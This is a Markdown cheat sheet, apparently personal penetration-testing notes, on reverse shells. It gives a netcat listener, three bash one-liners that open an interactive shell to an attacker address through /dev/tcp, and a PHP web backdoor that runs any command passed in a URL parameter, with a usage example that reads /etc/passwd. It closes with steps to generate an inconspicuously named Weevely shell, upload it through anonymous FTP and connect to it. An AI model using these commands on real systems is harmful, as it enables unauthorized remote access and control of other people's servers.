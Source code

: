 <!--
SPDX-FileCopyrightText: 2023 - 2024 Eli Array Minkoff

SPDX-License-Identifier: MIT
-->

# Reverse Shells

<!-- vim-markdown-toc GitLab -->

* [Reverse Shells](#reverse-shells)
  * [Simple Socket Reverse Shells](#simple-socket-reverse-shells)
    * [Attacker Side](#attacker-side)
    * [Target Side](#target-side)
  * [PHP reverse shells](#php-reverse-shells)
  * [Weevely](#weevely)

<!-- vim-markdown-toc -->

## Reverse Shells

### Simple Socket Reverse Shells

Some of the most basic reverse shells simply open a connection to a socket on the attacker's system, then read commands to run from the socket, and write their output back to it. For the examples in this section, I will assume that the attacker is listening on 192.0.2.231 port 5445.

#### Attacker Side

Run `nc -lvnp 5445` for TCP connections, or `nc -lvnup 5445` for UDP connections

**Explanation**: 

* `-l`: listen instead of initiating a connection
* `-v`: verbose output
* `-n`: do not attempt DNS resolution
* `-u`: use a UDP socket, rather than a TCP socket
* `-p 5445`: port 5445

#### Target Side

There is a list available [at this link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) of many different reverse shells in different languages.

I am including a simple one of them (with the example address and port changed), but for a much greater variety, follow the link above.

```bash
bash -i >& /dev/tcp/192.0.2.231/5445 0>&1

0<&196;exec 196<>/dev/tcp/192.0.2.231/5445; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/192.0.2.231/5445 0<&1 2>&1
```

### PHP reverse shells

On Kali systems, you can find a simple PHP reverse shell with the following contents at /usr/share/webshells/php/simple-backdoor.php:

```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

```

For a fancier web shell with a TTY-like user interface, check out [prakashchand72/Interactive-Php-Reverse-shell](https://github.com/prakashchand72/Interactive-Php-Reverse-shell).

### Weevely

Weevely provides a stealthier reverse shell that won't look like a reverse shell in logs. It can be used in a few steps:

```bash
# set the password
read -s -p "Password: " pass
# generate the executable
weevely generate "$pass" inconspicuous-filename.php
# somehow upload the executable to the target server - if there's anonymous read-write FTP access to a path within the web directory, that might work
printf 'cd upload-dir\nput %s\nexit\n' inconspicuous-filename.php | ftp -a targetserver.example
# connect to the weevely shell
weevely http://targetserver.example/upload-dir/inconspicuous-filename.php "$pass"
```
